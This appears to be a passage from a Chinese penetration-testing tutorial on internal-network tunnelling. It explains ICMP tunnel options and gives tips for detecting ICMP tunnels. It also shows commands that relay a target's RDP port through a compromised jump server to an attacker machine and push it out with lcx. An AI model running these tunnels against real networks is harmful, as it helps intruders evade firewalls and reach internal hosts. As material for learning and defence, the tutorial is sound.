

```
-x：指定ICMP隧道连接的密码
-lp：指定要监听的本地TCP端口
-da：指定要转发的目标机器的IP地址
-dp：指定要转发目标机器的TCP端口
-p：指定ICMP隧道另一段的机器IP地址
```

上面的命令的意思就是：在访问攻击者的机器Hacker（192.168.217.129）的1080端口时，会吧内网PC（192.168.217.132）的3389端口数据封装在ICMP隧道里，以Web服务器（192.168.217.135）为ICMP隧道跳板进行传输。最后，在本地访问Hacker（192.168.217.129）的1080端口，可以发现已经可以和内网PC（192.168.217.132）的3389进行连接了：

```
rdesktop -g 1440x900 -u saul -p saul 127.0.0.1:1080
```


#### 2.3：防御ICMP隧道攻击方法
一：检测同一来源的ICMP数据包的数量。一个正常的ping命令每秒最多发送两个数据包，而使用ICMP隧道的浏览器会在很短时间产生上前个ICMP数据包。

二：注意哪些payload大于64bit的ICMP数据包。

三：寻找响应数据包中的payload与请求数据包中的payload不一致的数据包。

四：根据ICMP数据包的协议标签，看特征。

#### 3：传输层隧道技术
传输层技术包括TCP隧道、UDP隧道和常规端口转发等。在渗透测试中，如果内网防火墙阻止了对指定端口的访问，在获得目标机器的权限后，可以使用IPTABLES打开指定端口，如果内网中存在一系列防御系统，TCP、UDP流量会被大量拦截。

#### 3.1：lcx端口转发
lcx是一款很经典的端口转发工具了。

lcx是一个基于socket套接字实现的端口转发工具，有windows和linux两个版本。

windows为lcx.exe，linux为portmap。

一个正常的socket隧道必须具备两端：

一个服务端，监听一个端口，等待用户的连接。

一个客户端，通过传入服务端的IP地址和端口，才能主动与服务器连接。

1、内网端口转发
在目标机器上执行如下命令，将目标3390端口的所有数据转发到服务端VPS的444端口上：

```
lcx.exe -slave 服务端IP 4444 127.0.0.1 3389
```